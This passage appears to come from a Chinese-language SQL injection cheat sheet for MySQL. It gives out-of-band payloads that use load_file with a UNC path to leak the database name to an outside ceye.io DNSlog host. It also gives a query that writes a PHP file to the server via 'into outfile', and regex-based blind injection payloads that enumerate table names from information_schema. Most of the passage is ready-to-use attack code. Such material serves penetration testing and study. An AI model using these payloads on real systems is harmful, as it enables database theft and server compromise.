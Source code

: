 **oob**

```sql
select load_file('\\\\test.xxx.ceye.io\\abc');

select load_file(concat('\\\\',(select hex(database()),'.xxx.ceye.io\\abc'));
/*
UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器.。UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。UNC路径就是类似\softer这样的形式的网络路径

格式： \servername\sharename ，其中 servername 是服务器名，sharename 是共享资源的名称。
目录或文件的 UNC 名称可以包括共享名称下的目录路径，格式为：\servername\sharename\directory\filename

上面的 payload 中 \\\\ 转义后即为 \\
select hex(database()) 为需要的查询语句，用 hex() 是因为构造 UNC 时不能有特殊符号，转化一下更好用。
.xxx.ceye.io\\abc 转义后就变成了 .xxx.ceye.io\abc
拼接起来后就成了 \\xxx.ceye.io\abc 完全符合 UNC 的路径标准，解析后在 DNSlog 平台就能看到数据了。
Linux 没有 UNC 路径，所以当处于 Linux 系统时，不能使用该方式获取数据
/*
```

如果不成功,可能是访问 oob 域名的流量被拦截了,也可能是由于没开启文件导入导出
```sql
show global variables like '%secure%';

-- 如果secure_file_priv的值为null，则没开启；如果为空，则开启；如果为目录，则说明只能在该目录下操作。
-- 通过设置my.ini来配置
```

**文件导出**

```sql
select '<? phpinfo(); ?>' into outfile 'D:/shell.php';
```

### 正则表达式攻击

在 MYSQL 5+ 中 information_schema 库中存储了所有的库名，表名以及字段名信息。

1. 判断第一个表名的第一个字符是否是 a-z 中的字符,其中 blind_sqli 是假设已知的库名。

> 注：正则表达式中 `^[a-z]` 表示字符串中开始字符是在 a-z 范围内

```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*
```

2. 判断第一个字符是否是 a-n 中的字符
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*
```

3. 确定该字符为 n
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n[a-z]' LIMIT 0,1) /*
```
